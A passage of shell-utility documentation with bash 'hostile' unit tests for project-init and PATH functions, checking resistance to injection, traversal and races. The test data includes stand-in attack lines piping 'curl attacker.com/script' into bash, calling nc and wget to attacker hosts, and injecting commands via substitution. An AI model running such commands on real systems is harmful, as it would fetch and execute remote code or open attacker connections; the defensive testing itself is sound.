       assert_false "$uv_injection_detected" "Should not inject commands into uv calls"
       assert_false "[ -f '/tmp/uv_injection_detected' ]" "Should not detect uv injection attempts"
       assert_false "[ -f '/tmp/type_attack' ]" "Should not execute commands from project type"

       unset -f uv
       cd "$original_dir"
   }

   # HOSTILE TEST: Concurrent project creation race conditions
   test_ds_project_init_concurrent_creation() {
       local original_dir="$PWD"
       local base_name="race_project_$$"
       local pids=()

       # Mock uv for faster testing
       uv() {
           case "$1" in
               "init") sleep 0.1; return 0 ;;
               "add") sleep 0.1; return 0 ;;
               *) return 0 ;;
           esac
       }

       # Launch concurrent project creation
       for i in {1..10}; do
           (
               ds_project_init "${base_name}_$i" >/dev/null 2>&1
               if [[ -d "${base_name}_$i" ]]; then
                   echo "SUCCESS:$i" > "/tmp/ds_race_result_$i"
               else
                   echo "FAILED:$i" > "/tmp/ds_race_result_$i"
               fi
           ) &
           pids+=($!)
       done

       # Wait for all processes
       for pid in "${pids[@]}"; do
           wait "$pid" 2>/dev/null || true
       done

       # Verify results
       local success_count=0
       for i in {1..10}; do
           if [[ -f "/tmp/ds_race_result_$i" ]]; then
               local result=$(cat "/tmp/ds_race_result_$i")
               if [[ "$result" == "SUCCESS:$i" ]]; then
                   ((success_count++))
               fi
               rm -f "/tmp/ds_race_result_$i"
           fi
           [[ -d "${base_name}_$i" ]] && rm -rf "${base_name}_$i"
       done

       assert_true "(( success_count >= 8 ))" "At least 8/10 concurrent project creations should succeed (got $success_count)"

       unset -f uv
       cd "$original_dir"
   }

   # HOSTILE TEST: Filesystem resource exhaustion during project creation
   test_ds_project_init_resource_exhaustion() {
       local original_dir="$PWD"
       local test_project="resource_test_$$"

       # Create project with extremely nested structure to test limits
       local start_time=$(date +%s)

       # Mock uv to simulate slow operations
       uv() {
           case "$1" in
               "init")
                   sleep 0.5  # Simulate slow initialization
                   return 0
                   ;;
               "add")
                   sleep 0.2  # Simulate slow dependency addition
                   return 0
                   ;;
           esac
       }

       ds_project_init "$test_project" "spark" >/dev/null 2>&1

       local end_time=$(date +%s)
       local duration=$((end_time - start_time))

       # Should complete within reasonable time despite slow operations
       assert_true "(( duration <= 30 ))" "Project creation should complete within 30s (took ${duration}s)"

       # Should create expected structure despite delays
       assert_true "[ -d '$test_project' ]" "Project directory should exist despite slow operations"
       assert_true "[ -d '$test_project/notebooks' ]" "Notebooks directory should exist"
       assert_true "[ -d '$test_project/data/raw' ]" "Data directories should exist"

       # Cleanup
       [[ -d "$test_project" ]] && rm -rf "$test_project"
       unset -f uv
       cd "$original_dir"
   }

   # HOSTILE TEST: Project template manipulation and code injection
   test_ds_project_init_template_manipulation() {
       local original_dir="$PWD"
       local test_project="template_test_$$"

       # Test with environment variables that could affect project templates
       export PROJECT_TEMPLATE_PATH="/malicious/templates"
       export UV_CONFIG_FILE="/tmp/malicious_uv_config"
       export JUPYTER_CONFIG_DIR="/tmp/malicious_jupyter"

       # Create malicious UV config
       mkdir -p "/tmp"
       cat > "/tmp/malicious_uv_config" << 'EOF'
[tool.uv.add]
extra-command = "rm -rf /tmp/template_attack"
post-install = "curl attacker.com/script | bash"
EOF

       ds_project_init "$test_project" >/dev/null 2>&1

       # Verify malicious config was not used
       assert_false "[ -f '/tmp/template_attack' ]" "Should not execute commands from malicious UV config"

       # Cleanup
       [[ -d "$test_project" ]] && rm -rf "$test_project"
       rm -f "/tmp/malicious_uv_config"
       unset PROJECT_TEMPLATE_PATH UV_CONFIG_FILE JUPYTER_CONFIG_DIR
       cd "$original_dir"
   }

Cross-Platform Utilities
-------------------------

path_add()
~~~~~~~~~~

**Function Definition:**

.. code-block:: bash

   path_add() {
       # Cross-platform path addition
       # Usage: path_add /path/to/add [before|after]
       local new_path="$1"
       local position="${2:-after}"
       
       # Check if path exists and is not already in PATH
       if [[ -d "$new_path" ]] && [[ ":$PATH:" != *":$new_path:"* ]]; then
           case "$position" in
               "before")
                   export PATH="$new_path:$PATH"
                   ;;
               "after"|*)
                   export PATH="$PATH:$new_path"
                   ;;
           esac
       fi
   }

**Examples and Elaboration:**

The ``path_add`` function safely adds directories to PATH, avoiding duplicates and checking for existence.

.. code-block:: bash

   # Add directory to end of PATH
   path_add "/usr/local/bin"
   
   # Add directory to beginning of PATH (higher priority)  
   path_add "/opt/homebrew/bin" before
   
   # Common development setup
   setup_development_path() {
       path_add "$HOME/.local/bin"
       path_add "/opt/homebrew/bin" before
       path_add "$HOME/go/bin"
       path_add "$HOME/.cargo/bin"
   }

**Unit Tests:**

.. code-block:: bash

   # HOSTILE TEST: PATH injection and command substitution attacks
   test_path_add_injection_resistance() {
       local original_path="$PATH"

       # Test various injection attempts
       local injection_attempts=(
           "/usr/bin; rm -rf /tmp/path_attack"
           "/usr/bin\$(touch /tmp/path_exploit)"
           "/usr/bin\`id > /tmp/path_id\`"
           "/usr/bin|nc attacker.com 4444"
           "/usr/bin&wget malicious.com/script"
       )

       for injection in "${injection_attempts[@]}"; do
           path_add "$injection"

           # Verify no commands were executed
           assert_false "[ -f '/tmp/path_attack' ]" "Should not execute rm via injection: $injection"
           assert_false "[ -f '/tmp/path_exploit' ]" "Should not execute touch via command substitution: $injection"
           assert_false "[ -f '/tmp/path_id' ]" "Should not execute id via backticks: $injection"
       done

       export PATH="$original_path"
   }

   # HOSTILE TEST: Path traversal and unauthorized directory access
   test_path_add_path_traversal_resistance() {
       local original_path="$PATH"

       # Create test directories that shouldn't be added
       mkdir -p "/tmp/path_test/../../etc/dangerous"
       mkdir -p "/tmp/path_test/../root/.ssh"

       # Test path traversal attempts
       local traversal_attempts=(
           "/tmp/path_test/../../etc/dangerous"
           "/tmp/path_test/../root/.ssh"
           "../../../usr/bin/malicious"
           "/var/../etc/../root/.bashrc"
           "/tmp/../../../root"
       )

       for traversal in "${traversal_attempts[@]}"; do
           path_add "$traversal"

           # Should not add sensitive system directories
           assert_false "[[ '$PATH' =~ '/etc' ]]" "Should not add /etc to PATH via: $traversal"
           assert_false "[[ '$PATH' =~ '/root' ]]" "Should not add /root to PATH via: $traversal"
       done

       export PATH="$original_path"
       rm -rf "/tmp/path_test"
   }

   # HOSTILE TEST: Concurrent PATH modification race conditions
   test_path_add_race_conditions() {
       local original_path="$PATH"
       local test_base="/tmp/path_race_$$"
       local pids=()

       # Create test directories
       for i in {1..10}; do
           mkdir -p "$test_base/dir_$i"
       done

       # Launch concurrent path_add operations
       for i in {1..10}; do
           (
               path_add "$test_base/dir_$i"
               echo "$PATH" > "/tmp/path_result_$i"
           ) &
           pids+=($!)
       done

       # Wait for all processes
       for pid in "${pids[@]}"; do
           wait "$pid" 2>/dev/null || true
       done

       # Verify PATH integrity after concurrent modifications
       local consistent_count=0
       for i in {1..10}; do
           if [[ -f "/tmp/path_result_$i" ]]; then
               local result_path=$(cat "/tmp/path_result_$i")
               # Each should contain its own directory
               if [[ "$result_path" =~ "dir_$i" ]]; then
                   ((consistent_count++))
               fi
               rm -f "/tmp/path_result_$i"
           fi
       done

       assert_true "(( consistent_count >= 8 ))" "At least 8/10 concurrent PATH additions should succeed (got $consistent_count)"

       export PATH="$original_path"
       rm -rf "$test_base"
   }

   # HOSTILE TEST: PATH pollution and cleanup resistance
   test_path_add_pollution_resistance() {
       local original_path="$PATH"

       # Pollute PATH with various problematic entries
       export PATH="/fake/bin:/malicious/bin:::/empty/path:$PATH"

       # Add legitimate directory
       local test_dir="/tmp/legitimate_bin_$$"
       mkdir -p "$test_dir"

       path_add "$test_dir"

       # Should add legitimate directory despite pollution
       assert_contains "$PATH" "$test_dir" "Should add legitimate directory despite PATH pollution"

       # Should not create duplicate entries
       local occurrences=$(echo "$PATH" | grep -o "$test_dir" | wc -l)
       assert_true "(( occurrences == 1 ))" "Should not create duplicate PATH entries (found $occurrences)"

       export PATH="$original_path"
       rm -rf "$test_dir"
   }

   # HOSTILE TEST: Memory exhaustion with extremely long paths
   test_path_add_memory_exhaustion_resistance() {
       local original_path="$PATH"
       local start_memory=$(ps -o rss= -p $$ 2>/dev/null || echo 0)

       # Create very long path name
       local long_path="/tmp/$(printf 'A%.0s' {1..1000})"
       mkdir -p "$long_path"

       # Add extremely long path multiple times
       for i in {1..50}; do
           path_add "${long_path}_$i" 2>/dev/null || true
       done

       local end_memory=$(ps -o rss= -p $$ 2>/dev/null || echo 0)
       local memory_increase=$((end_memory - start_memory))

       # Should not consume excessive memory
       assert_true "(( memory_increase < 5120 ))" "Should not leak memory with long paths (used ${memory_increase}KB)"

       # PATH should still be functional
       command -v ls >/dev/null 2>&1
       assert_equals $? 0 "PATH should remain functional after stress test"

       export PATH="$original_path"
       rm -rf "/tmp/A"*
   }

Notes
-----

.. note::
   
   All functions are designed to be cross-shell compatible, working in both bash and zsh environments.

.. warning::
   
   Unit tests assume certain system conditions. In production environments, consider using mocks for external dependencies like network connectivity and file system operations.

.. tip::
   
   Functions follow the principle of least surprise - they fail gracefully and provide meaningful error messages when possible.